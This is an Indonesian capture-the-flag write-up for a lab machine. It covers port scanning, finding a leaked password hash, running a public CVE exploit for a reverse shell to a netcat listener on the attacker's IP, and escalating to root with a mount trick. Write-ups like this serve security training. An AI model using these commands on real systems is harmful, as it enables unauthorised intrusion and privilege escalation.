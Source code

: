 # 11 Jancuk Pristail

## WRITEUP

Pertama di `nmap -sCV 10.10.200.15` lalu didapatkan 2 services
```bash
22 ssh
8080 http
```

Setelah itu kita coba `dirsearch -u 10.10.200.15` dan didapatkan
```bash
/data
/admin
/plugins
/theme
/backups -- FORBIDDEN
```

Setelah itu, kita connect ke 8080 Lalu didapatkan bahwa ternyata pada path `/admin` terdapat login page.

Di `/data/user/ruds.xml` akan didapatkan sebuah username `ruds` dan hash `ef5522daf1a61d8062a50644b96ef0f992242ab6`
Nah habis itu kita decrypt https://md5decrypt.net/en/Sha1/ dan didapatkan password `rumahsakit123` 

### User Flag
Setup listener dengan nc
```bash
nc -nvlp 1235
```

Pake CVE untuk dapat revshell https://www.exploit-db.com/exploits/51475
```bash
python3 CVE-2022-1544.py 10.10.20.15:8080 / 10.18.200.35:1235 ruds 
```

```bash
# /backup/user ada tapi ga guna
ruds
P@ssw0rd
```

Trus kita tinggal 
```bash
su ruds
Password: rumahsakit123
cat /home/ruds/user.txt
```

### Root Flag
cari suid binary untuk permission `find / -perm -u=s -type f 2>/dev/null` Didapatkan `/bin/mount` maka kita gunakan (GTFObins)[https://gtfobins.github.io/gtfobins/mount/]

```bash
sudo mount -o bind /bin/sh /bin/mount
sudo mount

cat /root/root.txt
```
Lokasinya ada di /root/root.txt